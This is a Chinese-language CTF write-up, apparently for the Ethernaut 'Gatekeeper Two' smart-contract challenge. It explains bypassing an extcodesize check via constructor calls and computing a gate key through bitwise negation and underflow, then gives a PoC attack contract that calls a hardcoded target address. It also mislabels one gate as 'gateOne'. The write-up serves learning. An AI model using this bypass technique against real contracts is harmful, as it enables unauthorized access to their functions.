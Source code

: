 ```javascript
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

相对来说比较难的是gateTwo那里不知道该怎么绕。涉及到内联注释，学习文章：
[ethervm](https://ethervm.io/)
[Solidity 中编写内联汇编(assembly)的那些事[译]](https://learnblockchain.cn/article/675)

```javascript
assembly { x := extcodesize(caller()) }
caller():message caller address
extcodesize():length of the contract bytecode at addr, in bytes
```

extcodesize是用来检查地址是不是合约地址的：

> caller 为合约时，获取的大小为合约字节码大小，caller 为账户时，获取的大小为 0 。

因此正常这里如果绕过gateOne的`require(msg.sender != tx.origin);`的话，这里也就绕不过了，因此我以为是gateOne的那里需要改变一种姿势绕，但是查不到新姿势。。。
看了一下，WP：

> 经过研究发现，当合约在初始化，还未完全创建时，代码大小是可以为0的。因此，我们需要把攻击合约的调用操作写在 constructor 构造函数中。

因此只要把攻击代码写在`constructor`里面就可以了。
至于gateOne就很简单了：

```javascript
require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
```

`uint64(0)-1`存在一个下溢出，溢出后是`0xffffffffffffffff`，因此前面需要得到`0xffffffffffffffff`。前面`^`是相同为0，不同为1，因此必须和前面结果的每一位都不一样，那就按位取反即可：
`gateKey = bytes8(~(uint64(bytes8(keccak256(abi.encodePacked(this))))));`

POC：

```javascript
pragma solidity ^0.6.0;

contract Feng {
    bytes8 public gateKey;
    address public target = 0x376E65f6d59Ec9f5cD3e9F9B18F05A0BB34A0bab;
    constructor() public {
        gateKey = bytes8(~(uint64(bytes8(keccak256(abi.encodePacked(this))))));
        target.call(abi.encodeWithSignature("enter(bytes8)",gateKey));
        
    }
}
```
